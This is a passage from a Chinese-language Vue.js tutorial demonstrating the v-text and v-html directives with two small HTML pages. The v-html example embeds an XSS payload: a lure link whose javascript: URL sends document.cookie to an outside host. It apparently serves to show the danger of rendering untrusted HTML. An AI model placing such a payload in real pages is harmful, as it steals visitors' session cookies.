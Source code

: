 ### `v-text`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-text指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
    <div v-text="str"></div>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            str: '<h3>你好啊！</h3>'
        }
    })
</script>
</html>
```

作用：向其所在的节点中渲染文本内容。

与插值语法的区别：`v-text` 会替换掉整个节点中的内容，`{{xx}}` 则不会。

### `v-html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-html指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            str: '<h3>你好啊！</h3>',
            str2: '<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
```